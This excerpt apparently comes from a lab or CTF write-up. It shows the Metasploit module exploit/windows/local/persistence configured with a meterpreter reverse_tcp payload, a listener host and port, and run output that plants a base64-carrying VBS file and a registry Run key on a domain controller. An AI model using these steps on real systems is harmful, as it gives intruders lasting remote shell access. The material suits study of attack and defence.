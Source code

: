 use exploit/windows/local/persistence

??? output "exploit/windows/local/persistence"
    ``` txt
    Global
    ======

    No entries in data store.

    Module: windows/local/persistence
    =================================

    Name                    Value
    ----                    -----
    ContextInformationFile
    DELAY                   10
    DisablePayloadHandler   true
    EXE::Custom
    EXE::EICAR              false
    EXE::FallBack           false
    EXE::Inject             false
    EXE::OldMethod          false
    EXE::Path
    EXE::Template
    EXEC_AFTER              false
    EXE_NAME
    EnableContextEncoding   false
    HANDLER                 false
    LHOST                   10.9.193.173
    LPORT                   4444
    MSI::Custom
    MSI::EICAR              false
    MSI::Path
    MSI::Template
    MSI::UAC                false
    PATH
    PAYLOAD                 windows/meterpreter/reverse_tcp
    REG_NAME
    SESSION                 3
    STARTUP                 USER
    VBS_NAME
    VERBOSE                 false
    WORKSPACE
    WfsDelay                2
    ```

This is the output of running `exploit/windows/local/persistence`. As you can see we add `iwIPTcY.vbs` to run during the next start. `iwIPTcY.vbs` contains a base64 encoded executable that will help getting a reverse shell when listening on the right port by sending a payload every 10 seconds.

``` txt
msf6 exploit(windows/local/persistence) > run

[!] SESSION may not be compatible with this module (missing Meterpreter features: stdapi_sys_process_set_term_size)
[*] Running persistent module against DOMAIN-CONTROLL via session ID: 3
[+] Persistent VBS script written on DOMAIN-CONTROLL to C:\Users\Administrator\AppData\Local\Temp\iwIPTcY.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\xFgziBlM
[+] Installed autorun on DOMAIN-CONTROLL as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\xFgziBlM
[*] Clean up Meterpreter RC file: /home/fab1/.msf4/logs/persistence/DOMAIN-CONTROLL_20210923.3728/DOMAIN-CONTROLL_20210923.3728.rc
```
